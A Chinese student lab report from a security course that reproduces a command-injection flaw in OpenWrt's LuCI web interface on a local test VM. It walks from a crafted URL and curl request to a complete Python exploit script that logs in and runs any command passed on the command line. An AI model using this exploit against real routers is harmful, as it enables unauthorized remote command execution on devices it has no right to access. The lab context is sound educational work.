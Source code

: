 # 实验四 移动通信安全概述
- [实验四 移动通信安全概述](#实验四-移动通信安全概述)
  - [实验环境](#实验环境)
  - [实验流程](#实验流程)
    - [CVE-2019-1227漏洞环境安装](#cve-2019-1227漏洞环境安装)
    - [漏洞复现](#漏洞复现)
    - [漏洞利用](#漏洞利用)
      - [代码](#代码)
      - [代码编写](#代码编写)
  - [算是一点感想吧](#算是一点感想吧)
  - [参考](#参考)
## 实验环境

- Kali 2020.3
- WSL2 Ubuntu 20.04 Server
- OpenWrt 15.05.1

## 实验流程

### CVE-2019-1227漏洞环境安装

安装代码与[第一章实验代码](https://github.com/CUCCS/2021-mis-public-LyuLumos/blob/ch0x01/ch0x01/code/setup-vm.sh)相同，仅需更改 `OpenWrt版本号` 与 `下载地址`。使用 `WSL2` 运行。

![](imgs/install19051.png)

其余配置同 [第一章实验OpenWrt环境](https://github.com/CUCCS/2021-mis-public-LyuLumos/tree/ch0x01/ch0x01#openwrt%E8%99%9A%E6%8B%9F%E6%9C%BA%E7%9A%84%E5%AE%89%E8%A3%85)，非实验重点在此略过。

![](imgs/OpenWrt%20-%20LuCI.png)

### 漏洞复现

先使用管理员账号登录 LuCI ，再使用浏览器访问
`
http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)
`
触发漏洞，再访问 `http://192.168.189.189/cmd.txt` 获取上一步命令执行的结果。

![](imgs/OpenWrt%20-%20LuCI%20-%20cmdtxt.png)

### 漏洞利用

#### 代码
<!-- ```bash
find -name cmd.txt
rm ./www/cmd.txt
``` -->

通过 Chrome 浏览器开发者工具的 「Copy as curl」 功能，将漏洞复现请求复制为 `curl` 命令 ，然后通过第三方网站 将 `curl` 命令转换为 `Python requests` 代码 ，再稍加改动添加继续访问 `/cmd.txt` 并打印服务器响应，得到示例如下：

（我使用的浏览器为 `Microsoft Edge 90.0.818.62 (官方内部版本) (64 位)`，命令稍有不同，为 「Copy as cURL (bash)」）

```bash
curl 'http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=c0f9a58c63c6811f85d67df275511138' \
  --compressed \
  --insecure
```

![](imgs/copyCURL.png)

转换后的代码长这样：

```python
import requests

cookies = {
    'sysauth': 'c0f9a58c63c6811f85d67df275511138',
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```

#### 关键参数的获取

我们前文中 `stok`、`cookies[sysauth]`等参数都需要再模拟一次登录才能获取。

<!-- 我们使用 `Burp Suite` 进行抓包，使用「Copy as curl command」命令得到结果。 -->

<!-- ![](imgs/loginBurpSuiteSend.png)

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 192.168.189.189' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.189.189/cgi-bin/luci' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 39' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'luci_username=root&luci_password=123456' \
    $'http://192.168.189.189/cgi-bin/luci'
``` -->

我们通过再一次模拟登录，搜索其中的 `method:POST` 信息，以相同的方式复制成 curl代码并在第三方网站中转换。

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.189.189',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.189.189/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': '123456'
}

response = requests.post('http://192.168.189.189/cgi-bin/luci', headers=headers, data=data, verify=False)
```

#### 代码编写

代码编写的核心思想就是使代码看起来「工具化」，减少硬编码。

```py
#!/usr/bin/env python

import argparse
import requests
from urllib.parse import urlparse


class CVE_2019_12272:
    def __init__(self, args):
        self.host = args.host
        self.username = args.username
        self.password = args.password
        self.cookies = ''
        self.stok = ''
        self.command = args.command

        self.headers = {
            'Connection': 'keep-alive',
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': 'http://{host}'.format(host=self.host),
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) '
                          'Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,'
                      'application/signed-exchange;v=b3;q=0.9',
            'Referer': 'http://{host}/cgi-bin/luci'.format(host=self.host),
            'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
        }

    def login(self):
        data = {
            'luci_username': '{username}'.format(username=self.username),
            'luci_password': '{passwd}'.format(passwd=self.password)
        }
        response = requests.post(self.headers['Referer'], headers=self.headers, data=data, verify=False,
                                 allow_redirects=False)
        location = response.headers["Location"]
        self.stok = urlparse(location).params
        self.cookies = response.cookies

    def shell(self):
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(
            host=self.host, stok=self.stok, cmd=self.command)
        response = requests.get(url, headers=self.headers, cookies=self.cookies, verify=False)
        if response.status_code >= 400:
            print("Build Shell Failed.")
        #     sys.exit(0)
        # else:
        #     print(response.content)

    def output(self):
        try:
            url = 'http://{host}/cmd.txt'.format(host=self.host)
            response = requests.get(url, verify=False)
            print(response.content.decode())
        except Exception as e:
            print("Error. ", e)


def run():
    parser = argparse.ArgumentParser(description='传入参数组')
    requiredNames = parser.add_argument_group('Required Named Arguments')
    requiredNames.add_argument('-a', '--host', help='ip host', required=True)  # -h 被--help占用
    requiredNames.add_argument('-u', '--username', help='username', required=True)
    requiredNames.add_argument('-p', '--password', help='password', required=True)
    requiredNames.add_argument('-c', '--command', help='command', required=True)
    args = parser.parse_args()
    temp = CVE_2019_12272(args)
    temp.login()
    temp.shell()
    temp.output()


if __name__ == '__main__':
    run()

```

在命令行里面调用

```bash
# argparse会把传递给它的选项视作为字符串，所以某些参数不加引号也可以
python main.py -a 192.168.189.189 -u root -p 123456 -c 'ifconfig'
```

![](imgs/answer.png)

## 算是一点感想吧

感觉写EXP比用鼠标酷炫多了。

这次试验其实暴露出很多我个人的问题，比如自己写的时候一直登录不上LuCI，最后看了黄大的视频才解决。还有一个是感觉我写的代码不太优雅（args向self传参有点傻），python使用还不是很熟练。

## 参考

- [黄大的课程](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)
- [Python - argparse - 命令行选项、参数和子命令解析器](https://docs.python.org/zh-cn/3/library/argparse.html)
